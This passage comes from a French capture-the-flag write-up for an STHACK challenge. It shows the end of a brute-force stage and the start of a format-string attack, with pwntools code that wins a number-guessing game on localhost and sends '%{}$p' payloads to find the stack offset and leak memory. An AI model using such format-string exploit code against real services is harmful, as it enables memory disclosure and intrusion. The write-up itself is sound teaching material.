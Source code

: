 ```python
                else:
                    r.recvuntil(b'guess the 4 digit number:\n')
                break
```

```sh
[+] Opening connection to localhost on port 1234: Done
[+] Try to win : 41/7531
[*] Switching to interactive mode

you win 42 times with 3328 tries, keep going on :) 
Well played !!
 Here is your flag : 
STHACK{....}
```

## Partie 2 - Dump le Binaire

Pour la partie 2, le nombre de victoires nécessaires est à 1. De plus, on nous indique un problème avec `printf`. Il va falloir ici récupérer le binaire en passant par une "format string".

La première étape d'une "format string" est de trouver l'offset à partir duquel, nous pourrons ensuite manipuler une adresse à lire ou écrire.

Pour cela, on va utiliser la notation suivante : 

`JUNKDATA|%{}$p|`

On incrémentera à chaque tour de boucle.

Il nous faut également une fonction permettant d'exploiter la "format string" avec le payload spécifique.

```python
from pwn import *

def is_good_number(number):
    return len(set([n for n in str(number)])) == 4

def send_payload(payload):
    r = remote('localhost', 1234, level='error')
    r.recvuntil(b'guess the 4 digit number:\n')
    for n in range(1000, 10000):
        if is_good_number(n):
            r.send(str(n).encode()+b"\n")
            res = r.recvuntil(b'\n')
            if b'4B0F' in res:
                try:
                    r.recvuntil(b'Enter your nickname for scoreboard :')
                    r.sendline(payload)
                    r.recvuntil(b'#3 - \n')
                    leak = r.recvuntil(b'\n')
                    r.close()
                    return leak
                except:
                    return ""

progress = log.progress('Looking for format string offset')

JUNK = ""
OFFSET = 0

for i in range(50):
    progress.status(str(i))
    g = cyclic_gen()
    res = send_payload(g.get(8)+"|%{}$p|".format(str(i)).encode()).split(b'|')[1]
```